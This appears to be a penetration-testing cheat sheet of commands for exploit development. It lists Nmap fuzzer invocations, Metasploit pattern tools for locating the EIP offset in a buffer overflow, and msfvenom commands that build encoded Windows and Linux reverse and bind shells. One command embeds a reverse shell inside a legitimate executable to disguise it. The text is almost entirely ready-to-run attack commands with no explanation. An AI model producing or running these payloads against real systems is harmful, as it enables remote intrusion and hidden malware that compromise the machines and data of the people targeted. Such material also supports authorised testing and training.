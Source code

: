 # DEP and ASLR - Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR)

## NMap Fuzzer List
https://nmap.org/nsedoc/categories/fuzzer.html

## NMap HTTP Form Fuzzer
nmap --script http-form-fuzzer --script-args 'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}' -p 80 $ip

## Nmap DNS Fuzzer
nmap --script dns-fuzz --script-args timelimit=2h $ip -d


# Pattern Create and Locate

locate pattern_create
pattern_create.rb -l 2700

locate pattern_offset
pattern_offset.rb -q 39694438

## Verify exact location of EIP - [*] Exact match at offset 2606
buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90


**MSFVenom Payloads**
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -o shell_reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

## Create a PE reverse shell and embed it into an existing executable
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

## Create a PE Reverse HTTPS shell
msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe

## Linux Bind Shell on PORT 4444 ( connect with nc -v $ip 4444 )
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai

